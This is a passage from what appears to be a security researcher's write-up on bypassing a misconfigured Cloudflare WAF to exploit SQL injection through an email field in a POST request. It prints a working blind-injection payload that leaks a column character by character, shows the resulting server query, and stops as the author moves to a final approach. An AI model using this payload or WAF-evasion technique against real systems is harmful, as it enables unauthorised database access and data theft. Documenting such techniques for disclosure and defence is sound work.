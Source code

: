 <h5>WAF Bypass #3</h5>
<p>
Looking back at the SQL query retrieved from the error produced by the database server, I noticed that using
the <b>FROM</b> clause might not be necessary. The table1 table is aliased as t1 in the query using the <b>AS</b>
keyword, and any of its columns can be referenced based on t1. You can query the column column1 of table1 as such:
</p>

{% highlight sql %}
SELECT t1.column1;
{% endhighlight %}

This passes through the (misconfigured) Cloudflare WAF just fine and thus the payload in the body of the POST
request can be transformed as such:

{% highlight json %}
...
 "email":"a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT t1.column1 LIMIT 1 OFFSET 0),1))))AND('a'='a"}
}
{% endhighlight %}

The subsequent SQL query on the server looks like this:

{% highlight sql  %}
SELECT t1.*
FROM table1 AS t1 LEFT JOIN table2 AS t2
	ON t2.id = t1.id
	AND t2.q_id IN (1, 2, 3, 4)
	AND t2.input = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT t1.column1 LIMIT 1 OFFSET 0),1))))AND('a'='a')
WHERE 
	t1.deleted_at IS NULL
	AND t1.name = $1
	AND (
		LOWER(t1.email) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT t1.column1 LIMIT 1 OFFSET 0),1))))AND('a'='a')
		OR LOWER(t2.input) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT t1.column1 LIMIT 1 OFFSET 0),1))))AND('a'='a')
	);
{% endhighlight %}

<p>
This works fine, but the limitation is that only data from table1 (or table2) can be extracted, as these are the only tables
aliased in the server SQL query.
Moving on to the final, successful attempt.
</p>

#### Final (and successful) attempt
<p>
All right, if I wanted to retrieve any piece of data I wanted from the database, I had to put aside WAF bypass technique #3.
At this point it looked like there was no way to avoid using the <b>FROM</b> clause. It also looked like there
was no way to successfully conceal the <b>FROM</b> clause into the payload without it being detected by Cloudflare's WAF. Great.
It seemed like the answer to was I was looking for was not in the SQL query. I had to take a step back.
</p>
